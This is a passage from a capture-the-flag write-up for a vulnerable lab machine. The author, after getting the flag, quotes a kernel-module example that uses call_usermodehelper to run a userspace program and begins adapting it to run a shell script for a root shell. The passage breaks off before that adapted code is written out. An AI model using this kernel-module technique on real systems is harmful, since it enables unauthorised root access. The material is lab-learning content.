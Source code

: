 ``` bash
[113593.419626] 	Many thanks to @TheColonial & @rasta_mouse for testing!
[113593.419626] 
[113593.419627] 	Ping me on #vulnhub for thoughts and comments!
[113593.419627] 
[113593.419628] 					  @barrebas, July 2014
[113593.419628] 

```


So, most people would go "I GOT THE FLAG !" and do a little dance. Probably along these lines

![](http://24.media.tumblr.com/d84096090e0740e9a0f9c91e94277f5a/tumblr_n411lwkMIO1qi4zmno1_500.gif)

But I wanted more - I actually wanted a root shell. I wonder if I can run shell scripts with a kernel module. Hmm... google ? I was drawn to [this article](http://people.ee.ethz.ch/~arkeller/linux/kernel_user_space_howto.html) which provided the following code

[c]
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <asm/uaccess.h>


static int __init usermodehelper_example_init(void)
{
	int ret = 0;
	char *argv[] = {"/home/arkeller/eth/paper/code/callee", "2", NULL };
	char *envp[] = {"HOME=/", "PATH=/sbin:/usr/sbin:/bin:/usr/bin", NULL };

	printk("usermodehelper: init\n");
	/* last parameter: 1 -> wait until execution has finished, 0 go ahead without waiting*/
	/* returns 0 if usermode process was started successfully, errorvalue otherwise*/
	/* no possiblity to get return value of usermode process*/
	ret = call_usermodehelper("/home/arkeller/eth/paper/code/callee", argv, envp, UMH_WAIT_EXEC);
	if (ret != 0)
		printk("error in call to usermodehelper: %i\n", ret);
	else
		printk("everything all right\n");
        return 0;
}

static void __exit usermodehelper_example_exit(void)
{
	printk("usermodehelper: exit\n");
}

module_init(usermodehelper_example_init);
module_exit(usermodehelper_example_exit);
MODULE_LICENSE("GPL");

```


I'm on the home straight here - lets modify this code to run a shell script instead (the shell script used is identical to that used earlier to get from delacroix to polito).

[c]
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <asm/uaccess.h>


```
